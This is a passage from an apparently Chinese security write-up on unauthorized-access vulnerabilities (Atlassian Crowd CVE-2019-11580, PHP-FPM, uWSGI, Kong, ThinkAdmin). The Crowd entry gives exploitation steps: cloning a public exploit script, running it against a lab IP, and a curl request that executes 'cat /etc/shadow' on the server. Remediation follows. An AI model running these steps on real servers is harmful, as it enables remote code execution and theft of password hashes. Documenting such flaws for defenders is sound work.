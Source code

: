 [https://www.cnblogs.com/bflw/p/12342845.html](https://www.cnblogs.com/bflw/p/12342845.html)

## 34.    Atlassian Crowd 未授权访问

**漏洞简介**

Atlassian Crowd是一套基于Web的单点登录系统。该系统为多用户、网络应用程序和目录服务器提供验证、授权等功能。Atlassian Crowd Data Center是Crowd的集群部署版。

Atlassian Crowd和Crowd Data Center在其某些发行版本中错误地启用了pdkinstall开发插件，使其存在安全漏洞。攻击者利用该漏洞可在未授权访问的情况下对Atlassian Crowd和Crowd Data Center安装任意的恶意插件，执行任意代码/命令，从而获得服务器权限。

**漏洞检测**

![](https://qqq.gtimg.cn/music/photo_new/T053XD0000464noI0b7ICy.jpg)

漏洞利用脚本github地址：https://github.com/jas502n/CVE-2019-11580

git clone https://github.com/jas502n/CVE-2019-11580

cd CVE-2019-11580/

python CVE-2019-11580.py http://192.168.18.138:8095

curl  http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow

**漏洞修复**

设置访问/crowd/admin/uploadplugin.action的源ip。

升级最新版本(3.5.0以上)。

## 35.    PHP-FPM Fastcgi未授权访问漏洞

详情请见：https://www.freebuf.com/articles/web/278245.html（第25条）

![](https://qqq.gtimg.cn/music/photo_new/T053XD00000K0puE413mf7.jpg)

## 36.     uWSGI未授权访问漏洞

详情请见：https://www.freebuf.com/articles/web/278245.html （第27条）

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001lV9xE0XNAEG.jpg)

## 37\. Kong未授权访问漏洞(CVE-2020-11710)

**环境部署**

略。

**漏洞复现**

复现可参考[https://xz.aliyun.com/t/7631](https://xz.aliyun.com/t/7631)

## 38\. ThinkAdminV6未授权访问漏洞
